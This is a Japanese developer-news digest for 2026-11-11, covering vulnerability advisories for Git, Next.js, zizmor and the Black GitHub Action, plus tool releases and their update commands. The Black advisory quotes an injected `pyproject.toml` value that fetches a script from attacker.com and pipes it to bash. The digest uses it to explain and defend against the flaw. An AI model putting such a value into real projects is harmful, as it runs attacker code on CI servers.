

# **本日の AI/開発ツール トピックス (2026-11-11)**

## **1. 📋 今日の30秒サマリー**

> **💡 今日のハイライト**
>
> - 🚨 **GitとNext.jsをお使いの方は要注意**: 外部プロジェクトの取得だけでPCが乗っ取られる脆弱性や、他社データが画面に混ざる深刻なキャッシュ不具合が公表されました。直ちに対象バージョンの確認が必要です。
> - 🚀 **DockerがAIエージェント標準対応へ**: 定番ツール「Docker Desktop 4.99」にAI接続共通仕様「MCP」が内蔵され、ClaudeやCursor等のAIと外部ツールがワンクリックで安全に連携可能になりました。
> - 🔥 **バイナリ解析AI「REA」や開発規律を徹底させる「Superpowers」が急浮上**: 中身が非公開のプログラムをAIが解剖する新ツールや、AIにテスト駆動開発（TDD）を強制するフレームワークが話題です。
{: .callout-summary}

| 区分 | トピック / ツール | ざっくり言うと？（1行要約） | 影響・おすすめ対象 |
| :--- | :--- | :--- | :--- |
| 🚨 **緊急** | **Git** (`CVE-2026-111760`) | 細工されたリポジトリを再帰クローンするだけでPCが完全に乗っ取られる | **Gitを使う全開発者**（直ちに最新パッチ版へ更新） |
| 🚨 **緊急** | **Next.js** (`GHSA-mfr8-8qww-v76h`) | キャッシュ機能の境界不備で別テナントの顧客データが画面に混入 | **Next.js 15/16 利用者**（16.4.5 / 15.5.29へ更新） |
| 🚨 **緊急** | **zizmor** (`CVE-2026-102289`) | デバッグログ出力時にGitHubアクセストークンが平文で露出 | **CI/CDでzizmorを使うチーム**（1.28.0へ更新） |
| 🚨 **緊急** | **Black GitHub Action** (`CVE-2026-114134`) | `pyproject.toml` の細工PRからCIサーバーで任意コマンドが実行可能 | **Blackで自動整形するリポジトリ**（コミットSHA固定） |
| 🚀 **新機能** | **Docker Desktop 4.99** | AIエージェント接続仕様「Docker MCP CLI」とAgentを標準搭載 | **Dockerを使う全開発者・AI活用チーム** |
| 🚀 **新機能** | **Claude Code (v2.1)** | 新世代推論モデルClaude Fable 5.2対応と遠隔操作ガードレール強化 | **ターミナルAIを使うエンジニア** |
| 🚀 **新機能** | **Astral uv v0.13.7** | デフォルトPython 3.15移行＆巨大モノレポ解決の省メモリ化 | **Python開発者・DevOps担当者** |
| 🚀 **新機能** | **vLLM v0.32.0** | EmbeddingGemma 2対応とCORS境界防御のデフォルト厳格化 | **自社環境でLLMをホストするMLOps担当者** |
| 🔥 **注目** | **REA** | 非公開プログラム・アプリの中身をAIが自律的に逆アセンブル解読 | **セキュリティアナリスト・解析担当者** |
| 🔥 **注目** | **Superpowers** | AIにTDD・Git Worktree・事前計画のプロの作法を強制するスキル群 | **AIコーディングの品質崩壊に悩むチーム** |
| 🔥 **注目** | **OpenClaw** | スマホのチャットから実機PC・サーバーのOS操作を代行する自律AI | **外出先からメンテや自動化を行いたい開発者** |

---

## **2. 🚨 緊急セキュリティ情報**

### **Git — 再帰的クローン時における整数切り捨てとシンボリックリンク置換による任意コード実行 (CVE-2026-111760)**

> **🔰 ひとことで言うと**
> 悪意のある細工が施された公開プロジェクトを `git clone --recurse-submodules` でダウンロードしただけで、**あなたのPC内で勝手にウイルスや不正プログラムを実行されてしまう**極めて深刻な問題です。
> 💬 *例えるなら：「宅配便の段ボール箱を開けた瞬間、中に入っていた仕掛けが勝手に家の鍵を開けて泥棒を招き入れてしまう」ような状態です。*
{: .callout-danger}

| リスク度 | 影響を受ける人 | 悪用のされやすさ | まずやるべき対策 |
| :---: | :--- | :--- | :--- |
| 🔴 **緊急** (CVSS 9.8) | 外部リポジトリを再帰クローンする全ユーザー・CIランナー | ⚠️ 細工されたURLを取得するだけで自動発動 | **Gitを直ちに最新パッチ版へアップデート** |

以下の図は、攻撃者が用意した特殊なリポジトリを被害者が取得した際に、整数切り捨てによってOSが乗っ取られるまでの攻撃フローを示したスイムレーン図です。

```mermaid
swimlane-beta TB
  subgraph Attacker["攻撃者 (悪意あるリポジトリ提供者)"]
    A1["極端に長いパスと細工したサブモジュールを配置"]
    A2["悪意あるGitフック (.git/hooks/post-checkout等) を同封"]
  end
  subgraph GitClient["Gitクライアント (脆弱なバージョン)"]
    G1["git clone --recurse-submodules を受信"]
    G2["パス長処理で整数切り捨てが発生し .git がシンボリックリンク化"]
    G3["サブモジュールのチェックアウト処理でフックを実行"]
  end
  subgraph VictimOS["被害者のパソコン / CIランナー"]
    V1["ディスク上に不正なシンボリックリンクが展開"]
    V2["フック経由で任意の悪意あるスクリプトがOS権限で動作 (乗っ取り)"]
  end
  A1 --> G1
  G1 --> G2
  G2 --> V1
  A2 --> G3
  G3 --> V2
```

> **図の見方**: 上段の攻撃者が用意した特殊なリポジトリを、中央のGitクライアントが再帰クローンする際、パス長計算のバグ（整数切り捨て）により本来保護されるべき `.git` がシンボリックリンクに書き換わります。その結果、下段の被害者OS上で悪意あるフックが自動起動してしまいます。

<details markdown="1">
<summary>🔍 技術的な仕組み・対象バージョン・対策コマンドを見る（エンジニア向け）</summary>

- **原因の仕組み**: 分散型バージョン管理システム「Git」のコア処理において、再帰的クローン（`git clone --recurse-submodules`）を実行した際に、細工された悪意あるリポジトリからローカルOS上で任意のネイティブコードを実行される脆弱性です。
  Gitの内部インデックス管理ルーチンにおいて、ファイルパスの長さを処理する際の整数切り捨て（Integer Truncation）が存在します。攻撃者は極端に長いファイルパスを持つリポジトリを構成することで、初期パス検証チェックを通過させた後、ディスク書き込み時にパス名を短縮された `.git` という名前に切り詰めさせることができます。この不整合を悪用してサブモジュールの `.git` 参照ファイルをシンボリックリンクに差し替え、攻撃者が用意した不正なGitフック（hookスクリプト）を含むディレクトリへリダイレクトさせます。その結果、被害者がリポジトリを再帰クローンした瞬間に、フックが自動実行されて端末が完全に乗っ取られます。
- **対象バージョン**: Git バージョン `2.56.0`, `2.55.0`, `2.54.0`, `2.53.0`, `2.52.0`, `2.51.2`, `2.50.1` 以下の全バージョン。
- **対策手順・コマンド**:
  ご利用のOSパッケージマネージャーで直ちにGitを修正済みバージョン（`2.56.1`, `2.55.1`, `2.54.1`, `2.53.1`, `2.52.1`, `2.51.3`, `2.50.2` 等）へ更新してください。更新が完了するまで、信頼できないサードパーティのリポジトリに対する `--recurse-submodules` フラグ付きクローンの実行を厳禁としてください。
  ```bash
  # macOS (Homebrew) の場合
  brew update && brew upgrade git

  # Ubuntu / Debian の場合
  sudo apt-get update && sudo apt-get install --only-upgrade git

  # バージョン確認 (2.56.1 以上等になっているか確認)
  git --version
  ```
- **一次ソース**: [GitHub Blog (Git Security Updates)](https://github.blog/) / [The Hacker News (Git Code Execution Flaw)](https://thehackernews.com/)

</details>

---

### **Next.js — Cache Componentsにおけるクロス・テナント・キャッシュ露出 (GHSA-mfr8-8qww-v76h / GHSA-vc7v-qv4w-wrv8)**

> **🔰 ひとことで言うと**
> 世界中で使われているWeb開発の仕組みに欠陥があり、**ある会社のユーザーの画面に、別の会社のプライベートな顧客データが混ざって表示されてしまう**危険が見つかりました。
> 💬 *例えるなら：「マンションの集合ポストで配達員が仕分けを間違え、隣の部屋の請求書や個人情報があなたのポストに届いてしまう」ような状態です。*
{: .callout-danger}

| リスク度 | 影響を受ける人 | 悪用のされやすさ | まずやるべき対策 |
| :---: | :--- | :--- | :--- |
| 🟠 **高** (CVSS 7.5) | Next.js 15/16でマルチテナント構成かつCache Componentsを利用するSaaS | ⚠️ 通常の並行アクセスが集中するだけで意図せずデータが混ざる | **`next` を 16.4.5 または 15.5.29 以上へ即座に更新** |

<details markdown="1">
<summary>🔍 技術的な仕組み・対象バージョン・対策コマンドを見る（エンジニア向け）</summary>

- **原因の仕組み**:
  1. **クロス・テナント・キャッシュ露出 (GHSA-mfr8-8qww-v76h)**: `unstable_cache` と `use cache` ディレクティブを併用している環境において、同一のパブリックなキャッシュ関数が直接呼び出された場合と、`unstable_cache` 経由で呼び出された場合とでルートパラメータ（テナントIDなど）の境界追跡が正しく同期していませんでした。コールドキャッシュ（キャッシュが存在しない初回）の生成中に並行リクエストが発生すると、別テナントのリクエスト結果が検証なしに共有キャッシュへ保存され、後続のリクエストに他社の機密データが配信される事態が発生します。
  2. **ネストされた `use cache` 関数におけるパラメータ露出 (GHSA-vc7v-qv4w-wrv8)**: ネストされた `use cache` 関数において、内側の関数がルートパラメータを読み取りつつ非同期処理を返し、外側の関数がそれを待たずに早期完了した場合、パラメータの依存関係メタデータが正しく記録されないままキャッシュエントリが保存されていました。
- **対象バージョン**: Next.js バージョン `16.4.5` 未満、および `15.5.29` 未満。
- **対策手順・コマンド**:
  プロジェクトの `package.json` の依存関係を更新し、本番環境へデプロイしてください。
  ```bash
  # pnpm の場合
  pnpm up next@latest

  # npm の場合
  npm install next@latest
  ```
- **一次ソース**: [Next.js Security Advisory (GHSA-mfr8-8qww-v76h)](https://nextjs.org/) / [GitHub Advisory Database](https://github.com/advisories)

</details>

---

### **zizmor — CI/CD静的解析ツールにおけるデバッグログ出力時のGitHubトークン平文漏洩 (CVE-2026-102289 / GHSA-f42p-wjw5-97qh)**

> **🔰 ひとことで言うと**
> 自動テストの安全性をチェックするツールが、詳細な動作記録（ログ）の中に**極めて重要なGitHubのパスワード（認証トークン）を誤ってそのまま書き出してしまう**不具合がありました。
> 💬 *例えるなら：「防犯カメラの点検報告書に、金庫の暗証番号がそのまま印刷されて全員に配られてしまった」ような状態です。*
{: .callout-danger}

| リスク度 | 影響を受ける人 | 悪用のされやすさ | まずやるべき対策 |
| :---: | :--- | :--- | :--- |
| 🟠 **高** (CVSS 7.5) | zizmor 1.27.0をCIやローカルで詳細ログ（`--verbose`）付きで実行したチーム | ⚠️ 公開されたCI実行ログを閲覧するだけでトークンを窃取可能 | **zizmor 1.28.0へ更新＆露出したトークンを再発行** |

<details markdown="1">
<summary>🔍 技術的な仕組み・対象バージョン・対策コマンドを見る（エンジニア向け）</summary>

- **原因の仕組み**: GitHub Actionsワークフローのセキュリティ設定ミスを高速検出するRust製静的解析ツール「zizmor」において、デバッグログ出力時に機密性の高い認証トークンが平文で標準エラー出力（stderr）に漏洩する脆弱性です。内部設定構造体のシリアライズ処理にRustの派生マクロ `#[derive(Debug)]` がそのまま適用されていたため、デバッグモード（`-v` や `--verbose` フラグ、または環境変数 `RUST_LOG=debug`）を有効化して実行すると、環境変数や引数から渡された `GH_TOKEN` や `GITHUB_TOKEN` などの認証クレデンシャルがマスク処理されずにそのままログへ出力されていました。
- **対象バージョン**: zizmor バージョン `1.27.0`。
- **対策手順・コマンド**:
  ```bash
  # cargo の場合
  cargo install zizmor --version 1.28.0

  # uv / pip の場合
  uv tool install zizmor@latest
  ```
  過去に `1.27.0` をデバッグモードで実行した記録がある場合は、CIログにトークンが出力されていないか確認し、使用していたGitHub Personal Access Token（PAT）やシークレットを直ちに再発行（ローテーション）してください。
- **一次ソース**: [NVD (CVE-2026-102289)](https://nvd.nist.gov/vuln/detail/CVE-2026-102289) / [GitHub Advisory (GHSA-f42p-wjw5-97qh)](https://github.com/advisories/GHSA-f42p-wjw5-97qh)

</details>

---

### **Black GitHub Action — `pyproject.toml` 未検証による任意コマンド実行 (CVE-2026-114134 / GHSA-cg8m-r9f2-5wm2)**

> **🔰 ひとことで言うと**
> プログラムの見た目を自動で整える仕組みに弱点があり、**外部から送られてきた提案（Pull Request）の中に細工を仕込まれると、クラウドサーバー上で勝手に不正コマンドを実行される**恐れがあります。
> 💬 *例えるなら：「アンケート用紙の自由記述欄に書かれた指示を、受付ロボットが疑わずにそのまま会社の重要システムで実行してしまう」ような状態です。*
{: .callout-danger}

| リスク度 | 影響を受ける人 | 悪用のされやすさ | まずやるべき対策 |
| :---: | :--- | :--- | :--- |
| 🟠 **高** (CVSS 8.6) | 公式の `psf/black` Actionで外部PRのフォーマット検査を行っているプロジェクト | ⚠️ 細工された `pyproject.toml` をPR送信するだけで発動 | **ワークフロー内のAction指定を最新の安全なコミットSHAに固定** |

<details markdown="1">
<summary>🔍 技術的な仕組み・対象バージョン・対策コマンドを見る（エンジニア向け）</summary>

- **原因の仕組み**: Pythonの標準的コードフォーマッタ「Black」の公式GitHub Action（`psf/black`）において、Pull Requestを通じてCIランナー上で任意のシェルコマンドを実行される脆弱性です。本Actionで `use_pyproject: true` オプションを有効にしている場合、リポジトリ内の `pyproject.toml` から `[tool.black]` セクションの `required-version` フィールドを抽出し、そのバージョンを内部シェルコマンド内で展開してインストールしようとします。この文字列に対するサニタイズが不十分であったため、攻撃者が外部から `required-version = "24.1.0; curl http://attacker.com/rev.sh | bash"` のような改ざんを加えたPRを送信すると、CIワークフローのコンテキスト内で任意のコマンドが実行されてしまいます。
- **対象バージョン**: `psf/black` GitHub Actionの旧バージョン全般。
- **対策手順・コマンド**:
  `.github/workflows/*.yml` 内で `psf/black` を呼び出している箇所を、最新の安全なコミットSHAまたはパッチ済みリビジョンへ固定（Pinning）してください。
- **一次ソース**: [GitHub Advisory (GHSA-cg8m-r9f2-5wm2)](https://github.com/advisories/GHSA-cg8m-r9f2-5wm2)

</details>

---

## **3. 🚀 メジャーリリース・新機能**

### **Docker Desktop 4.99.0 & Docker Engine 29.9.3 — AIエージェント連携（Docker MCP）を標準搭載**

> **🔰 ひとことで言うと**
> ClaudeやCursorなどのAIが、あなたのPC内のデータベースやブラウザ、開発ツールを安全に操作するための共通規格「MCP」が、**面倒な環境構築なしでDockerからワンクリックで使える**ようになりました。
> 💬 *例えるなら：「AIが使える様々な工具セットが、安全な頑丈な箱（コンテナ）に入って、最初から机の上に綺麗に並べられた」ような状態です。*
{: .callout-info}

| 比較ポイント | これまで (Before) | Docker 4.99.0 以降 (After) |
| :--- | :--- | :--- |
| **MCPの導入手順** | Node.jsやPythonを個別にインストールし、JSON設定ファイルを手書き | **Docker GUIからワンクリックで起動・即座に利用可能** |
| **実行の安全性** | AIツールがPC本体（ホスト環境）のファイルやネットワークに直接アクセス | **完全に隔離されたDockerコンテナ内で安全に実行** |
| **ツールの管理・更新** | ツールごとにバラバラに起動し、手動でアップデート | **Docker Desktop上で一括管理・ステータス監視・自動更新** |
| **パフォーマンス** | プロキシ経由時のソケット蓄積や、NFSマウント時のCPU暴走が発生 | **ソケットリーク完全解消＆ストレージサイズ計算のCPU負荷を根絶** |

以下の図は、開発者が指示を出したAIエージェントが、標準搭載されたDocker MCPランタイムを経由して安全な隔離環境で外部ツールを操作する流れを示した図です。



> **図の見方**: 開発者からの指示を受けたAIエージェントが、共通プロトコル（MCP）を介してDockerの管理レイヤーに接続します。Dockerは各ツール（データベースやブラウザなど）を安全なコンテナとして実行するため、ホストPCを危険に晒すことなくAIによる自動化を実現します。

<details markdown="1">
<summary>🔍 技術的ブレークスルーとリリースノート詳細を見る</summary>

- **技術的ポイント**:
  - AIエージェントとコンテナツールを標準接続する「Docker MCP CLI (v0.44.3)」および自律型アシスタント「Docker Agent (v1.153.0)」が標準コンポーネントとしてバンドルされました。
  - コンテナイメージ管理の標準が従来の独自ストレージから業界標準の `containerd` イメージストアへ完全移行しました。
  - プロキシ経由でHTTPリクエストを送信する際にソケットが解放されず蓄積する深刻なソケットリークが解消されました。
  - NFSやSMBでマウントされたボリュームのサイズ計算時に発生していたCPU暴走と不要なネットワークトラフィックが完全に抑制されました。
  - システムシャットダウン時にクリーンアップハンドラが途中で強制終了される不具合が修正され、Dockerエンジンのデータベース破損リスクが劇的に低下しました。
- **開発フローへの影響**: Claude CodeやCursorなどのAIエージェントから、標準搭載されたMCPを通じて「コンテナのビルド、ログ調査、構成修正」を安全なサンドボックス内で自律実行させることが追加設定なしで可能になります。
- **提供形態**: macOS/Windows/Linux向けに配布中。公式サイトまたはデスクトップアプリの自動更新から即座に適用可能。
- **公式リンク**: [Docker Desktop 4.99.0 Release Notes](https://docs.docker.com/desktop/release-notes/)

</details>

---

### **Claude Code (v2.1系) — 新世代モデルClaude Fable 5.2対応と遠隔操作ガードレール強化**

> **🔰 ひとことで言うと**
> 黒い画面（ターミナル）で動くClaudeのプログラミングAIが最新モデルに対応し、**離れた場所のサーバーやクラウド環境からでも安全に遠隔操作できるように**なりました。
> 💬 *例えるなら：「熟練のプログラマーAIに、危険な操作を自動で防ぐ安全ストッパー付きのリモコンが配られた」ような状態です。*
{: .callout-info}

| 比較ポイント | これまで (Before) | v2.1系 (After) |
| :--- | :--- | :--- |
| **対応推論モデル** | 既存のClaude 3.7 / 4.x世代モデル | **新世代モデル「Claude Fable 5.2」へネイティブ対応** |
| **自動実行の安全性** | コマンド自動実行時にどこまで権限を与えるかの制御が困難 | **動的な権限サンドボックス管理で破壊的コマンドを未然遮断** |
| **リモート・クラウド連携** | 手元のローカル環境での作業が中心 | **`settings.local.json` によるリモートコントロールを正式サポート** |

<details markdown="1">
<summary>🔍 技術的ブレークスルーとリリース詳細を見る</summary>

- **技術的ポイント**:
  - 新世代推論モデル「Claude Fable 5.2」へのネイティブ対応が追加され、高度な推論と大規模コードベースの把握力が向上しました。
  - クラウド開発環境やリモートサーバーからローカルエージェントの挙動をきめ細かく制御する「Remote Control」の設定ファイル対応（`settings.local.json`）が導入されました。
  - Google Vertex AI環境における超高速レスポンス（Fast Mode）が正式サポートされました。
  - コンテキストに応じた動的な権限サンドボックス管理が導入され、ディスク消去や機密ファイルの意図しない外部送信などの破壊的コマンドを未然に遮断するガードレールが強化されました。
- **導入手順**:
  ```bash
  npm install -g @anthropic-ai/claude-code@latest
  ```
- **公式リンク**: [Claude Code Documentation](https://claude.com/)

</details>

---

### **Astral uv v0.13.7 — デフォルトPython 3.15移行と巨大ワークスペースの省メモリ化**

> **🔰 ひとことで言うと**
> Pythonを劇的に速く動かす万能ツールが、**最新のPython 3.15を標準で使うようになり、数百のライブラリを束ねた巨大プロジェクトでもメモリを食わずに一瞬で準備完了**するようになりました。
> 💬 *例えるなら：「大型トラック何十台分もの荷物の積み込み手順を、AIが瞬時に計算して最小限のスペースで積み切ってしまう」ような効率化です。*
{: .callout-info}

| 比較ポイント | これまで (Before) | v0.13.7 (After) |
| :--- | :--- | :--- |
| **標準Pythonバージョン** | Python 3.14が標準で選択 | **最新安定版の「Python 3.15」へ正式移行** |
| **巨大モノレポのロック** | パッケージ数が多いとメモリ消費量が肥大化 | **依存関係解決ルーチンの最適化でピークメモリ消費量を劇的削減** |
| **並行ビルドの安定性** | マルチスレッド環境で稀にファイルロックの詰まりが発生 | **ファイルロック競合のデッドロック状態を完全解消** |

<details markdown="1">
<summary>🔍 技術的ブレークスルーとリリース詳細を見る</summary>

- **技術的ポイント**:
  - デフォルトで自動インストール・管理されるCPythonのバージョンが最新安定版の「Python 3.15」へと正式移行しました。
  - 脆弱性スキャン機能 `uv audit` におけるOSV（Open Source Vulnerabilities）エイリアスレコードの検知精度が向上しました。
  - マルチパッケージ構成（ワークスペース）での依存関係解決ルーチンの根本的なメモリ最適化により、巨大モノレポでの `uv lock` ピークメモリが大幅削減されました。
- **導入手順**:
  ```bash
  curl -LsSf https://astral.sh/uv/install.sh | sh
  # または
  brew install uv
  ```
- **公式リンク**: [uv Release v0.13.7](https://github.com/astral-sh/uv/releases)

</details>

---

### **vLLM v0.32.0 — EmbeddingGemma 2マルチモーダル対応とCORS境界防御の刷新**

> **🔰 ひとことで言うと**
> 自前のサーバーでAIを高速に動かす仕組みが、**画像と文字を同時に理解できる最新AIに対応し、外部からの不正アクセスを防ぐセキュリティの守りも強化**されました。
> 💬 *例えるなら：「社内専用のAI相談窓口に、顔写真と身元確認の頑丈なセキュリティゲートが新設された」ような状態です。*
{: .callout-info}

| 比較ポイント | これまで (Before) | v0.32.0 (After) |
| :--- | :--- | :--- |
| **マルチモーダル埋め込み** | 主にテキスト中心の埋め込みモデルに限定 | **「EmbeddingGemma 2」や「MiniCPM-V 4.7」のネイティブ推論に対応** |
| **APIサーバーのアクセス制御** | デフォルトですべてのWebサイト（`*`）からの通信を許可 | **明示的なオリジン許可リスト方式へ変更し、不正呼び出しを遮断** |
| **実行ランタイム** | Python 3.10が混在 | **Python 3.10サポートを完全終了し、3.11〜3.13向けに最適化** |

<details markdown="1">
<summary>🔍 技術的ブレークスルーとリリース詳細を見る</summary>

- **技術的ポイント**:
  - 画像とテキストを統合してベクトル化できる「EmbeddingGemma 2」や、超高精度マルチモーダルモデル「MiniCPM-V 4.7」のネイティブ推論がサポートされました。
  - APIサーバーのCORS（オリジン間リソース共有）設定が刷新され、従来の全許可（`*`）から明示的な許可リスト方式へ変更されました。外部Webサイトからローカルの推論エンドポイントを不正に叩かれるリスクが防止されます。
  - チャットテンプレートの不備を突いたリソース枯渇攻撃への耐性が向上しました。
- **提供形態**: PyPIおよび公式Dockerイメージ（`vllm/vllm-openai:v0.32.0`）として公開中。
- **公式リンク**: [vLLM v0.32.0 Release](https://github.com/vllm-project/vllm/releases/tag/v0.32.0)

</details>

---

## **4. 🔥 注目のトレンドツール**

### **REA (Reverse Engineer Anything) — 非公開プログラムの中身をAIが自律解読する調査ツール**

> **🔰 ひとことで言うと**
> ソースコードが手元にないアプリやプログラムを、**AIが自動で分解・解析して「どんな仕組みで動いているか」を図面のように解き明かしてくれる**画期的な調査ツールです。
> 💬 *例えるなら：「設計図のない古い家電を、熟練の職人AIが中身を分解して完璧な回路図を描き直してくれる」ようなツールです。*
{: .callout-tip}

| 注目ポイント | 内容 | おすすめ対象 |
| :--- | :--- | :--- |
| **何ができるか** | コンパイル済みバイナリやElectronアプリ（ASAR）をAIが自動分解し、実行フローや内部APIを解明 | **セキュリティアナリスト・解析担当者** |
| **注目の理由** | 人間が手作業で行っていた何時間もの逆アセンブル作業を、AIが自然言語の指示に従って自律調査 | **ドキュメントのないレガシーシステムを保守する開発者** |

<details markdown="1">
<summary>🔍 主な機能・アーキテクチャ・導入方法を見る</summary>

- **主な機能・用途**:
  - **バイナリ・アーカイブ解析**: Electronアプリ（ASAR）や実行ファイルを瞬時に展開・解析。
  - **MCPネイティブ統合**: Claude Codeなどのエージェントが自律的に関数シグネチャや文字列参照を検索可能。
  - **セキュアなローカル実行**: 解析対象のバイナリを外部クラウドへアップロードせず、手元のマシンで完結。
- **他の類似ツールとの比較**: 専門的なGUIツール（IDA ProやGhidra）を人間が何時間もかけて操作する従来の手法と異なり、AIエージェントが「このアプリの認証トークンの保存場所を特定して」といった指示に従って調査を自動完遂します。
- **導入手順**:
  ```bash
  npx rea-agents setup
  ```
- **リポジトリ**: [morluto/rea (GitHub)](https://github.com/morluto/rea)

</details>

---

### **Superpowers — AIコーディングにTDDとGit分離のプロの作法を強制するスキル群**

> **🔰 ひとことで言うと**
> AIが思いつきで勝手にコードを書き散らかさないよう、**「まずテストを書き、別の作業ブランチを切り、計画を立ててから着手する」というプロの開発規律を強制する**フレームワークです。
> 💬 *例えるなら：「新人の見習い大工AIに、勝手に柱を削らせる前に『設計図を書き、養生シートを敷き、安全確認をしてから作業する』ことをルール化した」ようなものです。*
{: .callout-tip}

| 注目ポイント | 内容 | おすすめ対象 |
| :--- | :--- | :--- |
| **何ができるか** | AIに「計画立案」「Git Worktreeによる環境分離」「テスト駆動開発（TDD）」を強制実行 | **AIエディタの品質低下に悩むテックリード** |
| **注目の理由** | 勢いだけでコードを書く「Vibe Coding」によるスパゲッティコード量産を構造的に防止 | **大規模リポジトリで安全にAI開発を自走させたいチーム** |

<details markdown="1">
<summary>🔍 主な機能・アーキテクチャ・導入方法を見る</summary>

- **主な機能・用途**:
  - **Git Worktree自動分離**: メインの作業ディレクトリを汚さず、エージェント専用の独立ブランチとディレクトリで作業を展開。
  - **厳格なTDDワークフロー**: 仕様を満たすテストコードを先に作成し、テストが成功する最小限の実装のみを生成。
  - **構造化サブエージェント連携**: 計画係、実装係、コードレビュー係の役割を明確に分担して作業を進行。
- **他の類似ツールとの比較**: 単なるプロンプト集と異なり、エージェントのツール呼び出しシーケンスそのものをガードレールで拘束するため、AIが勝手にテストを省略したりメインブランチで直接破壊的変更を行う事故を100%防止できます。
- **リポジトリ**: [obra/superpowers (GitHub)](https://github.com/obra/superpowers)

</details>

---

### **OpenClaw — スマホのチャットから実機PC・サーバーを操作する自律型アシスタント**

> **🔰 ひとことで言うと**
> スマホのチャットアプリから「サーバーを再起動しておいて」「最新コードをテストしておいて」と送るだけで、**実際に手元のパソコンやサーバーを遠隔操作して仕事を終わらせてくれる**自律AIです。
> 💬 *例えるなら：「オフィスで留守番している優秀な秘書AIに、LINE感覚で指示を送って仕事を片付けてもらう」ような感覚です。*
{: .callout-tip}

| 注目ポイント | 内容 | おすすめ対象 |
| :--- | :--- | :--- |
| **何ができるか** | TelegramやWhatsAppから自然言語でメッセージを送り、実機マシンのシェル・ファイル・ブラウザを操作代行 | **外出先から開発・運用タスクをAIに任せたいエンジニア** |
| **注目の理由** | 会話だけで終わる一般的なチャットAIと異なり、実機のOSレベルで自律アクションを実行 | **日常の定型業務をセルフホストで安全に自動化したい個人・チーム** |

<details markdown="1">
<summary>🔍 主な機能・アーキテクチャ・導入方法を見る</summary>

- **主な機能・用途**:
  - **メッセージング統合**: Telegram, WhatsApp, Discord等からセキュアに対話・操作。
  - **システム自律操作**: シェル実行、ファイル編集、ブラウザ自動操作を統合。
  - **プライバシーファースト**: ローカルLLM（Ollama等）との接続に対応し、機密データを社外に出さず運用可能。
- **他の類似ツールとの比較**: クラウド依存の独自アシスタント製品と異なり、完全にオープンソースで自己ホスト（セルフホスト）可能であり、機密リポジトリや社内インフラの操作を社外サービスに委ねる心配がありません。
- **リポジトリ**: [openclaw/openclaw (GitHub)](https://github.com/openclaw/openclaw)

</details>

---

## **5. 💡 その他・Tips**

### **GitHub Actionsでのサブモジュール再帰クローンに対する防御策**
本日公表されたGitの深刻なRCE脆弱性（CVE-2026-111760）を受けて、CI/CD環境におけるサブモジュール取得設定の再確認が推奨されます。
- **Tip**: GitHub Actionsで `actions/checkout` を利用している場合、`submodules: recursive` を指定しているジョブでは、ランナーにインストールされているGitが最新のパッチバージョン（Git 2.56.1等）に更新されているか確認してください。セルフホストランナー（Self-hosted Runner）を運用している組織は、ホストOSのGitバイナリを直ちに手動アップデートする必要があります。

### **CIログにおけるGitHubトークン漏洩を防ぐ環境変数設計**
zizmorの脆弱性（CVE-2026-102289）が示すように、静的解析ツールやCLIツールのデバッグ実行（`--verbose`）によってシークレットが露出するリスクは常に存在します。
- **Tip**: CIワークフロー内でトークンを渡す際は、コマンドライン引数（`--token ${{ secrets.GITHUB_TOKEN }}`）で渡すことを避け、環境変数経由とし、かつデバッグログを有効化する際はジョブのログ公開範囲を制限するか、GitHubの自動マスキング機能が確実に機能しているかをテスト用トークンで事前に検証する運用を徹底しましょう。

---

## **6. 📝 総評**

> **📌 今日の一言まとめ**
> AIエージェントが開発現場に深く浸透する今だからこそ、GitやDockerといった足元のツールの脆弱性対策と、AIにプロの規律を守らせる枠組み作りが不可欠です。
{: .callout-summary}

本日（2026年11月11日）の動向は、ソフトウェア開発の世界が「AIの知能そのものの進化」から「AIを安全かつ統制された形で開発インフラに組み込む実装フェーズ」へ完全に移行したことを如実に示しています。

セキュリティ面では、開発者の生命線であるGitにおける再帰クローン時の任意コード実行（CVE-2026-111760）という、歴史的とも言える重大な脆弱性が顕在化しました。さらにNext.jsのマルチテナントキャッシュ漏洩やzizmorのトークン露出が重なり、「開発・配信パイプラインのあらゆる接点で機密が脅かされる」という厳しい現実を突きつけています。特にAIエージェントが自律的に外部リポジトリをクローンして調査する自動化システムを構築している環境では、基盤となるGitクライアントのパッチ適用は最優先事項です。

一方の開発ツール面では、Docker DesktopがMCP CLIとDocker Agentを標準統合したことが極めて象徴的です。AIツール連携仕様であるMCPが、もはや一部の先進的ユーザーの実験場ではなく、コンテナインフラの標準インターフェースとして組み込まれたことを意味します。また、AIに勝手なコード変更を許さずTDDやGit分離を強制する「Superpowers」や、ブラックボックスなプログラムを解剖する「REA」の台頭は、開発者がAIを「気まぐれな魔法」ではなく「信頼できるプログラミングパートナー」へと調教し始めている証拠と言えます。足元のセキュリティパッチを迅速に適用しつつ、規律あるAI開発フレームワークを積極的に取り入れることが、現代のエンジニアリングチームに求められています。

---

## **7. 📖 用語解説**

| 用語 | 解説 |
|------|------|
| **RCE（遠隔コード実行）** | 悪意ある第三者が、ネットワーク経由で他人のパソコンやサーバー上で勝手にプログラムを実行できてしまう極めて危険な欠陥です。「泥棒に遠隔操作で家のパソコンを起動され、中身を自由にいじられる」ような状態です。 |
| **整数切り捨て（Integer Truncation）** | コンピュータが数値を扱う際、許容された桁数を超えた大きな数字の下位部分だけが残ってしまい、意図しない小さな数字に化けてしまう不具合です。「1005ページ」という厚い本が、桁あふれで「5ページ」として扱われてしまうような現象です。 |
| **シンボリックリンク（Symlink）** | ファイルやフォルダの「ショートカット（参照リンク）」のことです。これ自体は本物のファイルではなく別の場所を指し示しているだけですが、セキュリティの穴があると、本来触れてはいけない重要ファイルを指すように悪用されることがあります。 |
| **クロス・テナント・キャッシュ露出** | 複数の会社（テナント）で共有しているWebシステムで、A社の画面にB社の保存データ（キャッシュ）が誤って配信されてしまう不具合です。「マンションの宅配ボックスで、別の部屋の荷物が勝手に開いて見えてしまう」ような事故です。 |
| **トークン・クレデンシャル** | システムにログインしたりAPIを使ったりするための「デジタルの合鍵・身分証明書」です。これが第三者に漏洩すると、パスワードを知らなくても正規のユーザーになりすまして操作されてしまいます。 |
| **MCP（Model Context Protocol）** | AIと外部ツール（ファイル検索、データベース、コンテナなど）を共通の規格でつなぐオープン仕様です。「電化製品のUSB規格」のように、どんなAIとツールでも同じプラグで接続できるようにする仕組みです。 |
| **TDD（テスト駆動開発）** | 実際のプログラムを書く前に、まず「正しく動くかを確かめるテスト用のプログラム」を先に作り、そのテストを合格させるように本体コードを書いていく開発手法です。「答え合わせの基準を先に決めてから問題を解く」アプローチです。 |
